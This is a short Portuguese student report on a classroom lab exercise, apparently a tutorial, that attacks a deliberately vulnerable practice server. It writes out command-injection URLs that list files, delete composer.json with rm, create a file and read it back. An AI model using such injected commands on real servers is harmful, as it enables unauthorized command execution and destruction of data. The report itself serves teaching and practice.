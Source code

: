 # Relatório: Prática de Command Injection

Durante a apresentação em sala do conceito de command injection como um ataque de executando comandos no sistema operacional do servidor, no mesmo tutorial, foram propostas duas atividades práticas.

Realizando um ataque no servidor vulnerável disponibilizado pelo tutoral:
 http://commandinjection.herokuapp.com/

A partir das atividades propostas pela prática: 

Listei os arquivos do diretório:
> http://commandinjection.herokuapp.com/?dir=;ls

Apaguei um dos arquivos dentro da pasta /files
>http://commandinjection.herokuapp.com/?dir=files;rm%20composer.json

Criei um arquivo com o nome davicedraz.txt dentro da pasta /folder

> http://commandinjection.herokuapp.com/?dir=folder;echo "atividade_pratica" > davicedraz.txt

Escolhi um diretório qualquer na raiz do servidor e listar seu conteúdo.

>http://commandinjection.herokuapp.com/?dir=files;cat davicedraz.txt

![SQL](listar_arquivo.jpg)

No geral, não tive dificuldades para executar as atividades propostas e achei o tutorial muito interessante. O mesmo pode ser aplicado a outros servidores com vulnerabilidades a serem exploradas por command injection.